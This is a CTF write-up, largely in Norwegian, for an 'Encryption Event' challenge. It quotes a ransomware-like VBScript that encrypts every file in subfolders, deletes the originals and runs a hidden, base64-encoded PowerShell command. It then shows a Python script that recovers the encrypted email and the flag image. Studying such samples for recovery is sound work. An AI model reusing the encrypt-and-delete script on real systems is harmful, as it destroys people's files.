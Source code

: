 # Encryption Event
En gøy CTF-oppgave der man måtte forstå og lære om `VBScript` for a decryptere en epost som var kryptert av en dårlig implementert `ransomware`-aktig script på nett.

## Oppgave av Vealending
Threat actors these days have no shame. They steal code, and barely know how to use it.
Not only that, but they are so old fashioned that they are heavily reliant on VBScript for important things like crypto.


Unfortunately, they were still skilled enough to manage to encrypt our client's important file.
I refuse to believe they did a good job. Are you able to retrieve the contents of the file?


(WARNING - Place the files in a separate, empty folder. It will crawl subdirectories and encrypt the files if you accidentally run it.)

## Løsning
Vi prøver selvfølgelig å forstå hva det fordømte VBS-programmet prøver å gjøre. Her kan `chatGPT` være nyttig. Vi kutter ut deler av `vbs` programmet der det er nødvendig.
```html
<job>
  <script language="VBScript" src="aes.vbs"/>
  <script language="VBScript">

    Set fso = CreateObject("Scripting.FileSystemObject")
    set shell = CreateObject("Wscript.Shell")
    Set stream = CreateObject("ADODB.Stream")

    For Each folder In fso.GetFolder(".").SubFolders
      For Each file in fso.GetFolder(folder).Files

      Set src = fso.OpenTextFile(file, 1)
      Set dst = fso.OpenTextFile(file & ".enc", 8, -1)

      Do Until src.AtEndOfStream
        rax = shell.Run("powershell.exe -windowstyle hidden -e JABzAGUAZQBkACAAPQAgAEcAZQB0AC0AUgBhAG4AZABvAG0AIAA7ACAALgBcAGcAZQBuAGUAcgBhAHQAZQAuAGUAeABlACAAJABzAGUAZQBkACAAfAAgAE8AdQB0AC0ARgBpAGwAZQAgAC0ARQBuAGMAbwBkAGkAbgBnACAAYQBzAGMAaQBpACAALQBOAG8ATgBlAHcAbABpAG4AZQAgAGEAZQBzAF8AYQBuAGQAXwBoAG0AYQBjAC4AdAB4AHQA", 0, True)
        bin = FileToBytes("aes_and_hmac.txt")
        fso.DeleteFile("aes_and_hmac.txt")
        aesKey = B64Encode(TrimBytes(bin, 0, 32))
        macKey = B64Encode(TrimBytes(bin, 32, 32))
        dst.WriteLine (Encrypt(src.ReadLine(), aesKey, macKey) & ":" & aesKey)  
      Loop

      src.Close()
      dst.Close()
      fso.DeleteFile(file)
    
      Next
    Next

  </script>
</job>
```
```vbs
Function Encrypt(plaintext, aesKey, macKey)
    aes.GenerateIV()
    aesKeyBytes = B64Decode(aesKey)
    macKeyBytes = B64Decode(macKey)
    Set aesEnc = aes.CreateEncryptor_2((aesKeyBytes), aes.IV)
    plainBytes = utf8.GetBytes_4(plaintext)
    cipherBytes = aesEnc.TransformFinalBlock((plainBytes), 0, LenB(plainBytes))
    macBytes = ComputeMAC(ConcatBytes(aes.IV, cipherBytes), macKeyBytes)
    Encrypt = B64Encode(macBytes) & ":" & B64Encode(aes.IV) & ":" & B64Encode(cipherBytes)
End Function
```
Her kan vi forstå at hver linje i den krypterte eposten gir oss informasjon om `macBytes`, `aes.IV`, `cipherBytes`, og `aesKey`. For å dekryptere må vi reversere prosessen og da må vi finne ut `macKey`.
Ta det som en svart boks og med hjelp av `chatGPT` og litt redigering får vi skriptet som også er løsningen:
```python
from Crypto.Cipher import AES
import base64
import hmac
import hashlib

with open('Documents/important_email.eml.enc', 'r') as f:
    for line in f:
        encrypted_text = line
# split the encrypted text into its components
        mac_bytes, aes_iv, cipher_bytes, aes_key = encrypted_text.split(":")

# base64 decode the components
        mac_bytes = base64.b64decode(mac_bytes)
        aes_iv = base64.b64decode(aes_iv)
        cipher_bytes = base64.b64decode(cipher_bytes)
        aes_key = base64.b64decode(aes_key)

# compute the mac key from the aes key and aes iv
        mac_key = hmac.new(aes_key, msg=aes_iv, digestmod=hashlib.sha256).digest()

# decrypt the cipher bytes using aes-128-cbc mode
        cipher = AES.new(aes_key, AES.MODE_CBC, iv=aes_iv)
        plaintext = cipher.decrypt(cipher_bytes)

# remove the padding from the plaintext
        padding_length = plaintext[-1]
        plaintext = plaintext[:-padding_length]

# decode the plaintext to a string
        plaintext = plaintext.decode("utf-8")

# print the decrypted plaintext
        print(plaintext)
```
```console
sage decrypt.py
MIME-Version: 1.0
Date: Mon, 13 Mar 2023 21:58:30 +0100
From: Vealending <Vealending@protonmail.com>
Subject: Implementing backups?
Thread-Topic: Implementing backups?
Message-ID:
 <GF36kOxJsYZeZoYV3yITgynFqi0JQt9enmIW_120nFFMPRfaMWE62Mx-MCcrHdqRATuYhMhiecUBdzha1xkVvKrMZwKvbEyoDcSTqywc5Qc=@protonmail.com>
To: Cyberlandslaget <kontakt@cyberlandslaget.no>
Content-Type: multipart/related;
	boundary="_1F214529-CDDB-4D6F-A725-24FAF58B7989_"

--_1F214529-CDDB-4D6F-A725-24FAF58B7989_
Content-Transfer-Encoding: quoted-printable
Content-Type: text/html; charset="utf-8"

<html><head>
<meta http-equiv=3D"Content-Type" content=3D"text/html; charset=3Dutf-8"></=
head><body><div style=3D"font-family: Arial, sans-serif; font-size: 14px;">=
</div><span style=3D"font-size:15px;font-family:&quot;Segoe UI&quot;, &quot=
;Segoe UI Web (West European)&quot;, &quot;Segoe UI&quot;, -apple-system, B=
```
```console
Content-Type: image/png; name="image.png"
Content-ID: <7b01aaef@protonmail.com>
Content-Transfer-Encoding: base64
Content-Disposition: inline; filename="image.png"

iVBORw0KGgoAAAANSUhEUgAAAfIAAAMRCAYAAAAX3jTVAAAAAXNSR0IArs4c6QAAAARnQU1BAACx
jwv8YQUAAAAJcEhZcwAADsIAAA7CARUoSoAAAP+lSURBVHhe7J0FgBxF1sffZt3i7u4KgQDBPYe7
Hi6Hc3DIcdghBx+Hu7sf7sElBEIgHuLE3bPZrO989audN3SGWd9sssv7Qad7qqurqnu76l+vrONC
```
Ved å kjøre cyberchef file-detection på teksten får vi.
```console
File type:   Portable Network Graphics image (under Base64)
Extension:   B64
MIME type:   application/octet-stream
```
Vi må altså ta ut det relevante b64-encodet bildet og omgjøre til noe som er mer brukelig. Jeg brukte python for dette. 

```python
import base64

with open("image.b64", "r") as f:
    encoded_data = f.read()

decoded_data = base64.b64decode(encoded_data)

with open("image.png", "wb") as f:
    f.write(decoded_data)
```
Flagget finner vi altså da

![intro](https://github.com/stangeqwq/CTF/blob/main/images/encryptionevent.png)


